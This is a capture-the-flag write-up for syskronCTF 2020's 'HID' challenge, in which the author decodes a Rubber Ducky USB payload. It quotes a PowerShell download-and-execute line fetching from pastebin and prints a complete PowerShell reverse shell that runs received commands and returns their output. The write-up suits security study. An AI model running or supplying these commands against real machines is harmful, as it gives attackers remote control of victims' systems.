

# HID (300 points)

## Description

One of my colleagues found a USB stick in the parking lot in front of our company. Fortunately he handed it over directly to us . The drive contains an SD card with just one file. Maybe it's no normal USB flash drive?

[Attached bin](https://github.com/holypower777/ctf_writeups/syskronCTF_2020/HID/inject.bin)

## Solution

Inject.bin found in usb... What could it be? Sure! Ducky scripts!

Let's google ducky scripts decoder. [**Here we are**](https://ducktoolkit.com/).

Having decoded the script, I started reading the code. I still don't understand what the code does, but I found an interesting line:
```
powershell "IEX *New/Object Net.WebClient(.DownloadString*~https>&&pastebin.com&raw&YRD8jsvd~(<"ENTER
```

Let's open that link to pastebin and get the 404 error :)

I decided to search in google cache and Waybackk machine, but this page was not saved anywhere.

I tried to run the script in a virtual machine, but the script didn't do anything. Since I did not understand anything in the Daki scripts, I could not change them. I had no ideas and decided to open a hint.
```
There are different languages for your keyboard layout.
```
Switzerland was the answer. The link to pastebin has become valid, we open it and see the response with the flag
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Flag: syskronCTF{y0u_f0und_m3}